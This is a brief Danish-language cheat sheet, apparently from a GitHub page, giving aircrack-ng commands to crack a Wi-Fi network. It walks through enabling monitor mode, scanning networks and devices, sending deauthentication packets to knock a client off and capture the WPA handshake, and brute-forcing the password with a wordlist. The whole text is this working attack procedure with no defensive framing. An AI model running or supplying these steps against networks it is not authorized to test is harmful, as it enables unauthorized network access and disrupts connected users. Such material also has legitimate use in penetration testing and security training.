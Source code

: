 
Start monitor mode på wifi modul.
```bash
sudo airmon-ng start wlan
```

Scan efter network.
```bash
sudo airodump-ng wlan0mon
```

Scan efter enheder på et netværk.
```bash
sudo airodump-ng -d <wifi_BSSID> -w file_name -c 11 wlan0mon
```

Lav ny terminal mens tidligere fortsætter med at køre.
Deauthenticator enheden og forsøger at finde wifi handshake.
```bash
sudo aireplay-ng -0 10 -a <wifi_BSSID> -c <enhed_BSSID> wlan0mon
```

Forsøger at bruteforce wifi med en password liste.
```bash
sudo aircrack-ng -w /path/to/wordlist path/to/file_name.cap
```
